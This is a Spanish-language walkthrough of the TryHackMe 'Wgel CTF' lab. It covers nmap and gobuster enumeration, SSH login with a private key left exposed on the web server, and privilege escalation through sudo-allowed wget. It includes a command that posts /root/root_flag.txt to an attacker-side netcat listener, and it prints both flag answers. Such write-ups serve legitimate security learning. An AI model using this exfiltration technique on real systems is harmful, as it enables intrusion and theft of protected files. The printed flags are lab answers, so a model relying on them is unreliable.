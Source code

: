 # 1. Wgel CTF

## a) flag de usuario

Realizamos para empezar un escaneo básico con nmap, de esta forma conoceremos los puertos abiertos en la máquina y los servicios que están corriendo.

```
nmap -sV -T5 10.10.8.17
```

Vemos que están abiertos los puertos 22 y 80, con un servicio SSH en el 22 y un servidor web Apache en el 80.

![](IMG/Pasted%20image%2020250417185451.png)

Echamos un vistazo a la página web y recibimos la página principal de Apache.

![](IMG/Pasted%20image%2020250417185611.png)

Si miramos en el código fuente de la página, vemos que hay un mensaje para "jessie" en el que le indican que actualice la página.

![](IMG/Pasted%20image%2020250417185704.png)

Hay poco más de momento, así que usaremos GoBuster para hacer un listado de directorios.

```
gobuster dir -u http://10.10.8.17 -w /usr/share/dirb/wordlists/common.txt
```

De todos los directorios descubiertos, solo podemos acceder a /sitemap.

![](IMG/Pasted%20image%2020250417190101.png)

Nos encontramos con esta página.

![](IMG/Pasted%20image%2020250417190218.png)

Navegamos por ella en busca de alguna pista, pero no hay nada interesante, así que volvemos a usar GoBuster pero esta vez sobre el directorio /sitemap

```
gobuster dir -u http://10.10.8.17/sitemap -w /usr/share/dirb/wordlists/common.txt
```

Y vemos que hay varios directorios más.

![](IMG/Pasted%20image%2020250417190637.png)

Tras haberlos visitados todos, el único con contenido interesante es el directorio /.ssh, el cual parece contener una clave RSA.

![](IMG/Pasted%20image%2020250417191011.png)

![](IMG/Pasted%20image%2020250417191205.png)

Pues, estando en un directorio llamado /.ssh, teniendo un posible nombre de usuario "jessie" (el que vimos en el código fuente de la página principal) y una clave RSA, haremos como hicimos en una máquina anterior, trataremos de conectarnos por SSH. Descargaremos el archivo con la clave RSA y ejecutamos:

```
ssh -i id_rsa.txt jessie@10.10.8.17
```

Nos dará error de permisos, se los cambiamos con chmod 400. Y se conectará sin problemas.

![](IMG/Pasted%20image%2020250417191433.png)

Una vez conectados, buscaremos el archivo user.txt y lo abriremos para encontrar la flag de usuario. (en este caso, se llama user_flag.txt)

![](IMG/Pasted%20image%2020250417191730.png)

**Respuesta: 057c67131c3d5e42dd5cd3075b198ff6**

## b) flag de root

Bien, ahora nos queda escalar privilegios para poder encontrar la flag de root. Lo primero que haremos será ejecutar sudo -l para averiguar que es lo que puede ejecutar este usuario con permisos de root (si es que puede ejecutar algo así). Y, vemos que puede ejecutar con permisos de root el comando wget. Con este comando podemos realizar operaciones sobre los archivos desde un navegador web a través de peticiones GET, por lo que, supongo que tenemos que conseguir ver y por tanto exfiltrar, el archivo con la flag de root, ya que en la descripción de esta sala de Tryhackme nos daba la pista preguntándonos ¿Podrás exfiltrar la flag de root?

![](IMG/Pasted%20image%2020250417191949.png)

Haremos uso de los [GTFOBins](https://gtfobins.github.io/), que ya habíamos usado en otras máquinas anteriores, y recordamos que son una lista de binarios que nos ayudan a hacer bypass a las restricciones de seguridad del sistema.

![](IMG/Pasted%20image%2020250417193633.png)

![](IMG/Pasted%20image%2020250417193705.png)

Lo primero que haremos será iniciar un listener con netcat, para poder realizar lo que explicaremos a continuación.

```
nc -lvnp 1234
```

![](IMG/Pasted%20image%2020250417195419.png)

Bien, pues suponiendo que el archivo se llamará root_flag.txt, y que estará eb la ruta /root. Ya qué siempre están en esa ruta los archivos root.txt en Tryhackme y que siempre se han llamado user.txt, pero en esta es user_flag.txt, pues ejecutamos lo siguiente para intentar obtener el archivo (usando el comando proporcionado por GTFOBins para descargar archivos)

```
sudo /usr/bin/wget --post-file=/root/root_flag.txt 10.8.16.0:1234
```

Con esto, lo que estamos haciendo es enviar el archivo root_flag.txt desde la máquina objetivo a nuestra máquina atacante.

![](IMG/Pasted%20image%2020250417195446.png)

Hemos tenido suerte y nos ha devuelto el contenido del archivo, es decir, la flag de root.

![](IMG/Pasted%20image%2020250417195533.png)

**Respuesta: b1b968b37519ad1daa6408188649263d**